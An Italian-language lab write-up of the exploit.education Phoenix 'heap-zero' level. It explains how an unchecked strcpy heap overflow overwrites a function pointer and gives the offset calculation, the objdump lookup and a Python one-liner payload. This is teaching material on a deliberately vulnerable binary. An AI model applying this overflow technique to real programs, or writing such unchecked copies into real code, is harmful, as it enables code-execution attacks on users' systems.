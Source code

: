 ### Descrizione del Codice

Il programma `heap_zero.c` fornisce un'introduzione alla manipolazione dei dati sull'heap e a come ciò possa influenzare l'esecuzione del programma.

### Funzionamento del Programma

1. Il programma alloca due blocchi di memoria e li memorizza in `d` e `f`.
2. Imposta il puntatore alla funzione `fp` di `f` alla funzione `nowinner`.
3. Copia l'argomento della riga di comando nel campo `name` di `d` usando `strcpy`.
4. Chiama la funzione puntata da `f->fp`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `strcpy` senza controllare la dimensione, il che può causare un overflow del buffer. Questo può essere sfruttato per sovrascrivere il valore di `f->fp` e farlo puntare alla funzione `winner`.

### Exploit

L'exploit sfrutta la vulnerabilità di overflow del buffer per sovrascrivere il puntatore alla funzione `fp` di `f` con l'indirizzo della funzione `winner`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```sh
$ /opt/phoenix/i486/heap-zero AAAA
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
level has not been passed - function pointer has not been overwritten

L'offset tra data e fp è 0xf7e69050 - 0xf7e69008 = 72 byte.

Otteniamo l'indirizzo della funzione winner:
$ objdump -t /opt/phoenix/i486/heap-zero | grep winner
0804884e g     F .text	00000019 nowinner
08048835 g     F .text	00000019 winner

La funzione winner è a 0x08048835.
$ /opt/phoenix/i486/heap-zero $(python -c "print 'A'*72 + '\x35\x88\x04\x08'")
